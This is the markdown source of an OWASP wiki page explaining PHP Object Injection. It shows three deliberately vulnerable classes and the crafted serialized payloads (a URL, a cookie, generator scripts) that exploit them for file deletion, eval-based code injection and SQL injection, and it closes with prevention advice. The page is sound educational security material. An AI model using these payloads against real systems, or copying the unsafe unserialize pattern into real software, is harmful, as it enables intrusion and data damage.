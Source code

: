 ```yaml
---
layout: col-sidebar
title: PHP Object Injection
author: Egidio Romano
contributors:
permalink: /vulnerabilities/PHP_Object_Injection
tags: vulnerability, PHP Object Injection
auto-migrated: 1
---
```


{% include writers.html %}Author(s):

## Description

PHP Object Injection is an application level vulnerability that could
allow an attacker to perform different kinds of malicious attacks, such
as [Code Injection](Code_Injection "wikilink"), [SQL
Injection](https://owasp.org/www-community/attacks/SQL_Injection), [Path
Traversal](Path_Traversal "wikilink") and [Application Denial of
Service](Application_Denial_of_Service "wikilink"), depending on the
context. The vulnerability occurs when user-supplied input is not
properly sanitized before being passed to the unserialize() PHP
function. Since PHP allows object serialization, attackers could pass
ad-hoc serialized strings to a vulnerable unserialize() call, resulting
in an arbitrary PHP object(s) injection into the application scope.

In order to successfully exploit a PHP Object Injection vulnerability
two conditions must be met:

- The application must have a class which implements a PHP magic
  method (such as **wakeup or **destruct) that can be used to
  carry out malicious attacks, or to start a "POP chain".
- All of the classes used during the attack must be declared when the
  vulnerable unserialize() is being called, otherwise object
  autoloading must be supported for such classes.

## Examples

**Example 1**

The example below shows a PHP class with an exploitable \_\_destruct
method:

    class Example1
    {
       public $cache_file;

       function __construct()
       {
          // some PHP code...
       }

       function __destruct()
       {
          $file = "/var/www/cache/tmp/{$this->cache_file}";
          if (file_exists($file)) @unlink($file);
       }
    }

    // some PHP code...

    $user_data = unserialize($_GET['data']);

    // some PHP code...

In this example an attacker might be able to delete an arbitrary file
via a [Path Traversal](Path_Traversal "wikilink") attack, for e.g.
requesting the following URL:

    http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}

**Example 2**

The example below shows a PHP class with an exploitable \_\_wakeup
method:

    class Example2
    {
       private $hook;

       function __construct()
       {
          // some PHP code...
       }

       function __wakeup()
       {
          if (isset($this->hook)) eval($this->hook);
       }
    }

    // some PHP code...

    $user_data = unserialize($_COOKIE['data']);

    // some PHP code...

In this example an attacker might be able to perform a [Code
Injection](Code_Injection "wikilink") attack by sending an HTTP request
like this:

    GET /vuln.php HTTP/1.0
    Host: testsite.com
    Cookie: data=O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
    Connection: close

Where the cookie parameter "data" has been generated by the following
script:

    class Example2
    {
       private $hook = "phpinfo();";
    }

    print urlencode(serialize(new Example2));

**Example 3**

This last example shows how it is possible to perform a [SQL
Injection](https://owasp.org/www-community/attacks/SQL_Injection) attack using a "POP chain", for
instance by leveraging a \_\_toString method like this:

    class Example3
    {
       protected $obj;

       function __construct()
       {
          // some PHP code...
       }

       function __toString()
       {
          if (isset($this->obj)) return $this->obj->getValue();
       }
    }

    // some PHP code...

    $user_data = unserialize($_POST['data']);

    // some PHP code...

If the $user_data variable is an "Example3" object and it will be
treated like a string somewhere in the code, then its **toString
method will be called. Since this method will call the getValue method
of the object stored into the "obj" property, it's possible to set that
property to an arbitrary object, and execute its getValue method, if it
is accessible, otherwise its **call method will be called, if it is
defined. For the sake of ease, just think that when unserialize() is
called, the class below is available within the application scope (or
supported by autoloading):

    class SQL_Row_Value
    {
       private $_table;

       // some PHP code...

       function getValue($id)
       {
          $sql = "SELECT * FROM {$this->_table} WHERE id = " . (int)$id;
          $result = mysql_query($sql, $DBFactory::getConnection());
          $row = mysql_fetch_assoc($result);

          return $row['value'];
       }
    }

In this example an attacker might be able to perform a [SQL
Injection](https://owasp.org/www-community/attacks/SQL_Injection) attack by sending a POST request
containing a "data" parameter generated by a script like this:

    class SQL_Row_Value
    {
       private $_table = "SQL Injection";
    }

    class Example3
    {
       protected $obj;

       function __construct()
       {
          $this->obj = new SQL_Row_Value;
       }
    }

    print urlencode(serialize(new Example3));

## Related [Controls](https://owasp.org/www-community/controls/)

- [:Input Validation](:Input_Validation "wikilink")
- [:Static Code Analysis](:Static_Code_Analysis "wikilink")

## Prevention

Do not use unserialize() function with user-supplied input, use JSON
functions instead.

## References

- [PHP:
  unserialize](http://php.net/manual/en/function.unserialize.php)
- [PHP: Magic
  Methods](http://php.net/manual/en/language.oop5.magic.php)
- [PHP: Autoloading
  Classes](http://php.net/manual/en/language.oop5.autoload.php)
- [PHP RFC: Secured
  unserialize()](https://wiki.php.net/rfc/secure_unserialize)
- [Shocking News in PHP
  Exploitation](https://www.owasp.org/images/f/f6/POC2009-ShockingNewsInPHPExploitation.pdf)
  Stefan Esser, POC 2009
- [Utilizing Code Reuse/ROP in PHP Application
  Exploits](https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
  Stefan Esser, BlackHat USA 2010

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
